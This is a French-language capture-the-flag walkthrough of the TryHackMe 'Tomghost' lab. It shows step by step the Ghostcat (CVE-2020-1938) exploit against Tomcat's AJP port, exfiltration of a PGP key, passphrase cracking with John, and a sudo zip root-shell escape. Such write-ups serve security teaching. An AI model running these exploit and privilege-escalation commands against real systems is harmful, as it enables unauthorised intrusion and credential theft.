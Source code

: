 # TryHackMe – Tomghost 

> **Objectif :** démontrer pas à pas l’exploitation de la vulnérabilité **Ghostcat** (CVE-2020-1938) sur Apache Tomcat, puis élever les privilèges jusqu’au root en déchiffrant une archive PGP et en abusant d’un binaire SUID.  
> **Notre IP cible** : `10.10.197.181`

---

## 1. Reconnaissance réseau

### 1.1 Scan Nmap

```bash
nmap -p- -sV -A 10.10.197.181
```

| Port | Service | Version             | Intérêt                         |
|------|---------|---------------------|---------------------------------|
| 22   | SSH     | OpenSSH 7.2p2       | Accès distant (à garder en tête)|
| 53   | DNS     | **tcpwrapped**      | Non exploité ici                |
| 8009 | AJP13   | Apache JServ 1.3    | **Vecteur Ghostcat**            |
| 8080 | HTTP    | Apache Tomcat 9.0.30| Interface Web par défaut        |

> Ghostcat s’appuie sur le port **AJP 8009** par défaut ; le scanner confirme que le service est exposé.

---

## 2. Analyse du serveur Tomcat

### 2.1 Page d’accueil

Accéder à : `http://10.10.197.181:8080` – la page d’accueil par défaut d’Apache Tomcat affiche la version **9.0.30**.

### 2.2 Recherche de vulnérabilité

Une recherche rapide « tomcat 9.0.30 ghostcat » renvoie la CVE-2020-1938 et l’article Tenable :  
<https://www.tenable.com/blog/cve-2020-1938-ghostcat-…>

---

## 3. Exploitation Ghostcat

### 3.1 Récupération de l’exploit

```bash
git clone https://github.com/00theway/Ghostcat-CNVD-2020-10487
cd Ghostcat-CNVD-2020-10487
```

### 3.2 Lecture du fichier *web.xml*

```bash
python3 ajpShooter.py http://10.10.197.181 8009 /WEB-INF/web.xml read
```

Sortie pertinente :

```
...
Welcome to GhostCat
skyfuck:***********************
```

> Le couple `skyfuck:<mot_de_passe>` apparaît dans la balise `<description>` : **identifiants SSH** récupérés directement depuis le code XML.

---

## 4. Connexion SSH et premier flag

```bash
ssh skyfuck@10.10.197.181
# mot de passe récupéré plus haut
```

Arborescence :

```
credential.pgp      # archive chiffrée
tryhackme.asc       # clé privée PGP
```

Le flag *user* se trouve dans le home d’un autre utilisateur :

```bash
find / -name user.txt 2>/dev/null
cat /home/merlin/user.txt
```

---

## 5. Escalade : de *skyfuck* à *merlin*

### 5.1 Importer la clé ASC

```bash
gpg --import tryhackme.asc
```

### 5.2 Déchiffrer ? GPG demande une **passphrase inconnue**.

---

## 6. Extraction de la passphrase (côté attaquant)

1. **Exfiltrer** `tryhackme.asc` :

   ```bash
   # cible
   python3 -m http.server 8000
   # attaquant
   wget http://10.10.197.181:8000/tryhackme.asc
   ```

2. **Convertir en hash John** :

   ```bash
   gpg2john tryhackme.asc > mdp
   ```

3. **Craquer la passphrase** (rockyou) :

   ```bash
   john mdp --wordlist=/usr/share/wordlists/rockyou.txt
   ```

   Sortie : `********** (passphrase pour déchiffrer la clé PGP !!)`

---

## 7. Déchiffrement de `credential.pgp`

```bash
gpg --decrypt credential.pgp     # saisir la passphrase trouvée
```

Contenu :

```
merlin:<mot_de_passe_merlin>
```

Changement d’utilisateur :

```bash
su merlin
```

---

## 8. Escalade root via *zip* SUID

### 8.1 Vérifier les droits

```bash
sudo -l
# => (root) NOPASSWD: /usr/bin/zip
```

### 8.2 Exploitation (méthode GTFOBins)

```bash
TF=$(mktemp -u)
sudo zip $TF /etc/hosts -T -TT 'sh #'
sudo rm $TF
```

Une shell root s’ouvre :

```bash
whoami   # root
cat /root/root.txt
```

---

## 9. Récapitulatif des phases

| Phase | Technique | Élément gagné |
|-------|-----------|---------------|
| 1     | Scan Nmap | Découverte AJP 8009 |
| 2     | Ghostcat  | Credentials *skyfuck* |
| 3     | SSH       | Accès utilisateur & fichiers PGP |
| 4     | gpg2john  | Passphrase clé privée |
| 5     | GPG decrypt | Credentials *merlin* |
| 6     | SUID zip  | Root shell & flag |

---

## 10. Points clés à retenir

1. **Ghostcat** → pensez AJP, pas seulement HTTP.  
2. Un couple **.asc + .pgp** ≠ inutile : exploitable via *gpg2john*.  
3. Les **GTFOBins** sont incontournables pour exploiter rapidement un binaire SUID.

---

### Références

- CVE-2020-1938 : <https://www.tenable.com/blog/cve-2020-1938-ghostcat…>  
- Exploit Ghostcat : <https://github.com/00theway/Ghostcat-CNVD-2020-10487>  
- gpg2john : <https://github.com/openwall/john>  
- GTFOBins ZIP : <https://gtfobins.github.io/gtfobins/zip/>

---

**Auteur :** Saad Idrissi
